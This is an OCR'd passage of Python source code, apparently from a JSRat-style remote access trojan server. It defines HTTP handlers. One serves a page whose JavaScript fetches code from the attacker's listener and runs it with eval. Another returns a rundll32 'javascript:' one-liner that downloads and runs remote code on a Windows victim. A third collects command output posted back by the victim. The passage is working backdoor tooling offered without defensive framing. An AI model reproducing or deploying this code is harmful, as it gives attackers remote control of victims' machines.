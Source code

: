     elif "/rat" == self.path:
      #Send command
      good("OK, Success Send command to Client...")
      caution("Hit CTRL+C to kill server....")

    elif "/hook" == self.path:
      good("Hooking Client: %s" % str(self.client_address[0]))
      content_type = "text/html"
      response_message = jsrat()
      response_message = """<!doctype html public "-//w3c//dtd html 4.0 transitional//en">
<html>
  <head>
   <title> new document </title>
   <meta name="generator" content="editplus">
   <meta name="author" content="">
   <meta name="keywords" content="">
   <meta name="description" content="">
  </head>
  <body>
   <script language="javascript" type="text/javascript">
      h=new ActiveXObject("WinHttp.WinHttpRequest.5.1");
      h.Open("GET","http://"""+bind_ip+":"+str(listener_port)+srv_url+"""",false);
      h.Send();
      B=h.ResponseText;
      eval(B);
    </script>
  </body>
</html>"""

    elif "/wtf" == self.path:
      good("Client Command Query from: %s" % str(self.client_address[0]))
      response_message = """
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://"""+bind_ip+":"+str(listener_port)+srv_url+"""",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}"""
      print cyan(response_message + "\n")

    # Send the built response back to client
    self.send_response(200)
    self.send_header('Content-type',content_type)
    self.end_headers()
    self.wfile.write(response_message)


  def do_POST(self):
    """
        Handle any POST requests coming into our server
    """
    if "/rat" == self.path:
      content_len = int(self.headers.getheader('content-length', 0))
      post_body = self.rfile.read(content_len)
      print cyan(post_body)
      if post_body == "[No Output]":
        print
      self.send_response(200)
      self.send_header('Content-type','text/plain')
      self.end_headers()
